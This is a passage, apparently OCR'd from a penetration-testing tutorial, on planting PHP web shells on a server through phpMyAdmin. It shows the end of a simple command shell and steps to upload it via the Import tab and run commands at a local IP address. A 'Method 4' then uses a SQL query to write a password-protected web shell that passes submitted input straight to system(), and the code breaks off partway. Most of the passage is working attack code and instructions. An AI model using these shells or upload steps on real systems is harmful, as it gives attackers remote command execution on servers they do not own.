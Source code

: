 ```bash
   } else {

       echo "Usage: ?cmd=command";

   }

   ?>

   ```

   2. In phpMyAdmin, navigate to the "Import" tab
   3. Browse and select your `shell.php` file
   4. Set the character set to "utf-8"
   5. Click "Go" to upload the file
   6. The file should now be accessible at:

   ```bash
   http://192.168.74.162/shell.php?cmd=id
   ```

   **Method 4: Creating a More Advanced Web Shell**

   For a more feature-rich web shell, you can use the SQL command to write a more advanced PHP script:

   ```sql
   SELECT '<?php

   // PHP Advanced Web Shell

   $password = "pentester"; // Change this password

   if (!isset($_POST["password"]) || $_POST["password"] != $password) {

       echo "<form method=\"post\"><input type=\"password\" name=\"password\"><input type=\"submit\" value=\"Login\"></form>";

       exit;

   }

   echo "<style>body{background-color:#000;color:#00FF00;font-family:monospace;}</style>";

   echo "<h1>PHP Web Shell</h1>";

   echo "<form method=\"post\">";

   echo "<input type=\"hidden\" name=\"password\" value=\"".$password."\">";

   echo "Command: <input type=\"text\" name=\"cmd\" style=\"width:400px;\">";

   echo "<input type=\"submit\" value=\"Execute\">";

   echo "</form>";

   if(isset($_POST["cmd"])) {

       echo "<pre>";

       system($_POST["cmd"]);

       echo "</pre>";

```